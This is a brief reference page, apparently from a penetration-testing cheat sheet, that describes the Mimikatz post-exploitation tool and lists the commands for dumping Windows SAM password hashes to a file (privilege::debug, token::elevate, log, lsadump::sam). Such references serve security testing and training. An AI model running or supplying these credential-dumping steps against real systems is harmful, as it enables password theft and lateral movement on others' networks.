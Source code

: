 **Mimikatz**
===========


Abstract
--------

> *Is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks it enables are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers.*
 
Source: <a href='https://github.com/gentilkiwi/mimikatz' target='_blank'>Mimikatz</a>

Examples 
--------

**Note:** Some of the examples below presume files and paths that might not match your particular system and tool installation.

The following examples are after the download and run Mimikatz:


**Dumping the hashes with Mimikatz and LSAdump**

Run Mimikatz 
```bash 
$ Mimikatz.exe
```
```bash
$ privilege::debug
```
```bash
$ token::elevate
```
Run “log hash.txt” so that your next command will output to a txt file
```bash
log hash.txt
```
```bash
$ lsadump::sam 
```
Exit from Mimikatz...
```bash
$ exit
```
 

